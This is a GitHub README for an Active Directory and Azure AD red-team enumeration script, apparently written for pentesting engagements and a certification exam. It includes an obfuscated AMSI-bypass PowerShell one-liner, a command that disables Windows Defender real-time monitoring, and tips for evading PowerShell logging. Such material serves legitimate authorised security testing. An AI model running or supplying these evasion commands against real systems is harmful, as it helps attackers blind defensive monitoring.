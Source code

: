 # ADRedTeamEnumScript

This AD Red Team Enumeration Script is used to query a lot of aspects of your target Forest. The script will save all output from each enumeration task into a folder separating out the output files into appropriate folders for analyze later. This script saved me a lot of time on the enumeration portion for the [Pentester Academy CRTE](https://bootcamps.pentesteracademy.com/course/ad-azure-jun-21) exam. Will be extremely useful for any traditional AD pentesting engagement. The script contains more information within it to help you enumerate discovered resources further, so ensure you read the commented out portions! 

This script is also designed to run other popular scripts and modules intended to get the most information out of your target Azure AD tenant. You should look into their project to understand the full capabilities of the tools besides the small task performed within this script.

* [Invishell](https://github.com/OmerYa/InvisiShell)


**These scripts doesn't require valid credentials in order to execute correctly, not a privilege escalation script per se**

## Usage

Not necessary to be an admin to run the script, but of course easier to get around most security features, heres a few tips that will help prevent the script from being blocked:

### Bypassing PowerShell Security

**To avoid verbose PowerShell logging - use [invishell](https://github.com/OmerYa/InvisiShell) (RunWithRegistryNonAdmin)**
```C:\PATH\Tools\InviShell\RunWithRegistryNonAdmin.bat```

**AntiMalware Scan Interface (AMSI) may detect some tools when you load them. Uses the following AMSI bypass:**
```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )```

**Stop Windows Defender (need to be admin)**

```Set-MpPreference -DisableRealTimeMonitoring $true```
                             
After which you can run the script to enumerate your target
1. Download the repo and rename folder as 'Tools' or whatever you choose. This repo includes the modules you need already.

Want to do it manually:

1. As an administrator install the following on your system to interact with Azure on PowerShell:

* [AzureAD Module](https://docs.microsoft.com/en-us/powershell/azure/active-directory/install-adv2?view=azureadps-2.0) - ```(main) Install-module AzureAD OR (public) Install-module AzureADPreview``` - get the public for these scripts
* [Az PowerShell Module](https://docs.microsoft.com/en-us/powershell/azure/new-azureps-module-az?view=azps-6.3.0) - ```Install-Module Az -Force```
* [Azure Command-Line Interface (CLI)](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli-windows?tabs=azure-powershell) - ```Invoke-WebRequest -Uri https://aka.ms/installazurecliwindows -OutFile .\AzureCLI.msi; Start-Process msiexec.exe -Wait -ArgumentList '/I AzureCLI.msi /quiet'; rm .\AzureCLI.msi```
* [AAD Internals](https://o365blog.com/aadinternals/#installation) - ```Install-Module AADInternals```

You can also edit the script to do all the above as well!

2. Download the [AzureHound](https://github.com/BloodHoundAD/AzureHound) and [MicroBurst](https://github.com/NetSPI/MicroBurst) repos.

3. Put both repos and the two enumeration scripts into a folder called `Tools` or whatever.

4. Run the first full script:

```.\AzRedTeamEnumScript.ps1```

![script](https://user-images.githubusercontent.com/20993128/129288516-892aa15c-fd19-48ef-81e4-2dc4a1743c5a.png)

## Author
- [@n3t1nv4d3](https://twitter.com/n3t1nv4d3) author and researcher (https://github.com/n3t1nv4d3).
- Sources for other scripts used are linked to their names up above, thanks to your work I was able to create my personalize enum script. 
